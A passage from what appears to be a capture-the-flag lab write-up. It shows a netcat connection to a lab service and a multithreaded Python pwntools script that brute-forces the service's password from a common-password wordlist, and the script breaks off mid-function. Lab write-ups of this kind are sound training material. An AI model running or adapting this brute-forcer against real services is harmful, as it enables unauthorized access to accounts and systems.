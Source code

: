 Running the script, we discover the unknown input as `admin`.

```console
$ python3 brute_force_input.py
[+] Input found: admin
[+] Output recieved: b'Start a fresh client to begin.\n'
```

Connecting to the server and sending the `admin` input, we see that it now prompts for a password.

```console
$ nc 10.10.98.190 8000
admin
Password:
```

We can modify our previous script to also brute force the password as follows:

```python
#!/usr/bin/env python3

from pwn import remote, context
import threading

target_ip = "10.10.98.190"
target_port = 8000
wordlist = "/usr/share/seclists/Passwords/500-worst-passwords.txt"
stop_flag = threading.Event()
num_threads = 100


def brute_force_pass(passwords):
    context.log_level = "error"
    r = remote(target_ip, target_port)
    for i in range(len(passwords)):
        if stop_flag.is_set():
            r.close()
            return
        if i % 3 == 0:
            r.sendline(b"admin")
            r.recvuntil(b"Password:\n")
        r.sendline(passwords[i].encode())
        try:
            if b"shell" in r.recvline(timeout=0.5):
                stop_flag.set()
                print(f"[+] Password found: {passwords[i]}")
                r.close()
                return
        except:
            pass
    r.close()
    return


def main():
    passwords = [line.strip() for line in open(wordlist, "r").readlines()]
    passwords_length = len(passwords)
    step = (passwords_length + num_threads - 1) // num_threads
    threads = []
    for i in range(num_threads):
        start = i * step
        end = min(start + step, passwords_length)
        if start < passwords_length:
            thread = threading.Thread(target=brute_force_pass, args=(passwords[start:end],))
            threads.append(thread)
            thread.start()
    for thread in threads:
```